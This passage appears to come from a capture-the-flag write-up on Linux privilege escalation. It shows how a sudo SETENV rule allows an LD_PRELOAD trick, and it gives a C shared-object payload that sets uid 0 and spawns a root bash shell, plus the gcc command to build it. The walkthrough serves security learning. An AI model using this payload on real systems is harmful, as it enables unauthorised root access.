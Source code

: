 But nothing too interesting for us.

### Privilege escalation
Taking a closer look into the sudo rights we can see that the option `SETENV` is set for the command:
```
(root) SETENV: NOPASSWD: /opt/monitor.sh
```

From the sudoers manpage:
```
SETENV and NOSETENV

[...]

If SETENV has  been  set  for  a command,  the  user may disable the env_reset flag from the command line via the -E option.  Additionally, environment variables set on the command line are not subject to the restrictions  imposed  by  env_check, env_delete,  or  env_keep.

[...]
```

Meaning that we are able to set environment variables for the execution, and they won't be reset. That gives us many options.

_See also https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv or https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/_

Manipulating the `PATH` variable is not really an option here since all commands are executed over their absolute path.

The `LD_PRELOAD` variable is way more interesting. Here we can set a path to a shared object that will be loaded before any other library (_see also https://stackoverflow.com/questions/426230/what-is-the-ld-preload-trick#426260_).

In our case that means that we can load any shared object with root privileges before the script executes. For example, we can use this payload to get a shell:
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	}
```
_source: https://systemweakness.com/linux-privilege-escalation-with-ld-preload-sudo-a13e0b755ede_

We can compile it on our attacking machine:
```
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```

And copy the shared object file afterwards onto the target. 
